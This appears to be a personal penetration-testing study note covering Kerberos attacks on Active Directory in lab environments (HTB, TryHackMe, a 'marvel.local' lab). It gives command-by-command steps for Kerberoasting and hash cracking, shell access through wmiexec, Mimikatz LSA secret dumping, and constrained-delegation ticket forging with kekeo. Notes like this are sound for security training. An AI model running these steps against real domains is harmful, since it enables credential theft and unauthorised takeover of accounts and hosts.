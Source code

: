 ## Kerberos

### Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  ```
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```
  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate 
     - `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`
        ```
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat (for it to work I needed to have 4gb on my vm)
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```
- Crack the hash with john
  - Alternatively we can use john
  ```
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```

- We get the password
  ```
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
- After getting a password, we could connect to an smbshare or get a shell

  ```
  python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
  ```
  or
  ```
  smbclient \\\\10.10.10.100\\Users -U active.htb\\Administrator
  ```

### Exploiting Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

Source: [TryHackMe](https://tryhackme.com/room/exploitingad)

#### Example

- Enerumerate available delegations with a privileged user
  - `Import-Module C:\Tools\PowerView.ps1`
  - `Get-NetUser -TrustedToAuth`
- Dump LSASecrets with [Mimikatz](https://github.com/gentilkiwi/mimikatz/security)
  - `mimikatz.exe`
  - `token::elevate` To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
  - `lsadump::secrets` Mimikatz interacts with the registry hive to pull the clear text credentials.
  
![Dump](../.res/2022-07-29-13-06-16.png)  

- Perform the kerberos delegation attack with [kekeo](https://github.com/gentilkiwi/kekeo) `kekeo.exe`
- `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted` generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
  - user - The user who has the constrained delegation permissions.
  - domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
  - password - The password associated with the svcIIS account.

![generate TGT](../.res/2022-07-29-13-08-20.png)  

- `/user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc` forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1
  - tgt - We provide the TGT that we generated in the previous step.
  - user - The user we want to impersonate. Since t2 accounts have administrative access over workstations, it is a safe assumption that t1 accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
  - service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service. `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
- Import the tickets with Mimikatz

```dos
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- You should have a similar output  

![output](../.res/2022-07-29-15-35-02.png)

- You can run `klist` to check that the tickets were imported
- We just need to create our session in our target  

![Session](../.res/2022-07-29-15-37-15.png)